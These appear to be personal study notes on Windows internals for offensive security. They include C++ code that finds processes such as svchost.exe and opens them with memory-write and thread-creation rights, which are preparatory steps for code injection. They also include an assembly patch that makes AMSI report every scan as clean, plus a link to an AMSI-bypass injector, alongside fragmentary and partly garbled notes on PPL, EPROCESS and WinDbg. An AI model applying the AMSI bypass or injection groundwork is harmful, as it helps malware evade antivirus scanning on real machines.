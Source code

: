 dll base adress  find export func 


## get handle from process :
```c++
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

int main()
{
    const wchar_t* processname = L"svchost.exe";
    DWORD pid = 0;

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE)
    {
        wprintf(L"[X] Failed to take snapshot of processes.\n");
        return -1;
    }

    PROCESSENTRY32W pe;
    pe.dwSize = sizeof(PROCESSENTRY32W);


    if (!Process32FirstW(hSnapshot, &pe))
    {
        wprintf(L"[X] Process32FirstW failed.\n");
        CloseHandle(hSnapshot);
        return -1;
    }

    HANDLE hProcess = NULL;

    do {
        if (_wcsicmp(processname, pe.szExeFile) == 0)
        {
            pid = pe.th32ProcessID;
            wprintf(L"[!] Found %ls with PID %d\n", processname, pid);

            hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                                   PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ,
                                   FALSE, pid);

            if (hProcess == NULL)
            {
                wprintf(L"[X] Could not open handle to PID %d (error %lu), continuing...\n", pid, GetLastError());
            }
            else
            {
                wprintf(L"[+] Successfully opened handle to PID %d\n", pid);
                CloseHandle(hProcess);
                break;
            }
        }
    } while (Process32NextW(hSnapshot, &pe));

    CloseHandle(hSnapshot);
    return 0;
}


```

## write code with vector for get from more process :

```c++
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <vector>
#include <string>

int main()
{
    // List of target process names
    std::vector<std::wstring> targetProcesses = {
        \L"svchost.exe",
        L"notepad.exe",
        L"explorer.exe"
    };

    // Take a snapshot of all running processes
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE)
    {
        wprintf(L"[X] Failed to take snapshot of processes.\n");
        return -1;
    }

    PROCESSENTRY32W pe;
    pe.dwSize = sizeof(PROCESSENTRY32W);

    if (!Process32FirstW(hSnapshot, &pe))
    {
        wprintf(L"[X] Process32FirstW failed.\n");
        CloseHandle(hSnapshot);
        return -1;
    }

    do {
        for (const auto& procName : targetProcesses)
        {
            if (_wcsicmp(procName.c_str(), pe.szExeFile) == 0)
            {
                DWORD pid = pe.th32ProcessID;
                wprintf(L"[!] Found %ls with PID %d\n", procName.c_str(), pid);

                HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                    PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ,
                    FALSE, pid);

                if (hProcess == NULL)
                {
                    wprintf(L"[X] Could not open handle to PID %d (error %lu), continuing...\n", pid, GetLastError());
                }
                else
                {
                    wprintf(L"[+] Successfully opened handle to PID %d (%ls)\n", pid, procName.c_str());
                    
                }
            }
        }
    } while (Process32NextW(hSnapshot, &pe));

    CloseHandle(hSnapshot);
    return 0;
}

```





## process structure :
### user mode : 
peb 
### user mode : 
EPROCESS
KPROCESS
All Process linked as doubly linked-list 



# PPL protected process level 
for user admin and privilage SEdebug 
first microsoft give this for video and audio --> people have to sighn in microxoft and get certificate 
image has level in process protected 
protec process is a concept of user mode not in kernel 
after its be protected process light 
we cant hijack in these because need to dll sighn 
### werfaut and secure 

### PDB :
is a debuger and has symbols and .... and rootkit and in the EProcess  


## process protected light 
0. none
1. authenticode
2. codeGen
3. .
4. .
5. .
6. .
7. .

 


# set symbol for WINDBG : 
```
set _NT_SYMBOL_PATH=srv*C:\Symbols*https://msdl.microsoft.com/download/symbols

```



## windbg : 
### first chance :


### secend chance :




```
dt nt!_peb @$peb
```
dt ntdll!_EPROCESS
```
```
```
```
```
```



##AMSI : 

mov [rsp+8], rbx      ; Save registers
mov [rsp+10h], rsi
push rdi
sub rsp, 20h
xor eax, eax          ; Set return value to 0 (AMSI_RESULT_CLEAN)
add rsp, 20h          ; Restore stack
pop rdi               ; Restore registers
mov rsi, [rsp+10h]
mov rbx, [rsp+8]
ret                   ; Return to caller

https://github.com/EvilBytecode/Ebyte-AMSI-ProxyInjector






## mailslot 

driver and process want to connect together 

## pip



AWRC priject : https://github.com/stdevPavelmc/awrc





### Wmiprovider :
WMIProvider refers to a component or class that supplies data to Windows Management Instrumentation (WMI) — a powerful Microsoft technology used for monitoring and managing Windows-based systems.










